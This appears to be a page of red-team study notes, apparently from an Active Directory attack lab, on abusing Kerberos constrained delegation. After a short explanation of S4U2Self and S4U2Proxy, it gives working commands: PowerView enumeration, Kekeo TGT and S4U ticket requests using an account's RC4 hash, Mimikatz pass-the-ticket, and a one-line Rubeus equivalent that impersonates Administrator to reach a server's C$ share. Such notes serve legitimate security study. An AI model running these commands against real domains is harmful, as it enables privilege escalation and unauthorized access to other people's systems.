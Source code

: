 • The KDC checks the websvc userAccountControl value for the TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION attribute, and that Joe's account is not blocked for delegation. If OK it returns a forwardable ticket for Joe's account (S4U2Self). 

• The service then passes this ticket back to the KDC and requests a service ticket for the CIFS/dcorpmssql.dollarcorp.moneycorp.local service. 

• The KDC checks the msDS-AllowedToDelegateTo field on the websvc account. If the service is listed it will return a service ticket for dcorp-mssql (S4U2Proxy). 

• The web service can now authenticate to the CIFS on dcorpmssql as Joe using the supplied TGS.

##### To abuse constrained delegation in above scenario, we need to have access to the websvc account. If we have access to that account, it is possible to access the services listed in msDS-AllowedToDelegateTo of the websvc account as ANY user.

#### Enumerate users and computers with constrained delegation enabled
```powershell
# Using PowerView (dev) 
Get-DomainUser –TrustedToAuth
Get-DomainComputer –TrustedToAuth

# Using ActiveDirectory module: 
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

#### Using asktgt from Kekeo, we request a TGT (steps 2 & 3 in the diagram): 
```cmd
kekeo# tgt::ask /user:websvc /domain:dollarcorp.moneycorp.local /rc4:cc098f204c5887eaa8253e7c2749156f
```

#### Using s4u from Kekeo, we request a TGS (steps 4 & 5): 
```powershell
tgs::s4u /tgt:TGT_websvc@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:cifs/dcorp-mssql.dollarcorp.moneycorp.LOCAL
```

#### Pass the ticket
```powershell 
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_cifs~dcorpmssql.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi"' 

ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$

# With Rubeus, We are requesting a TGT and TGS' in a single command
.\Rubeus.exe s4u /user:websvc /rc4:cc098f204c5887eaa8253e7c2749156f /impersonateuser:Administrator /msdsspn:"CIFS/dcorpmssql.dollarcorp.moneycorp.LOCAL" /ptt 

ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```
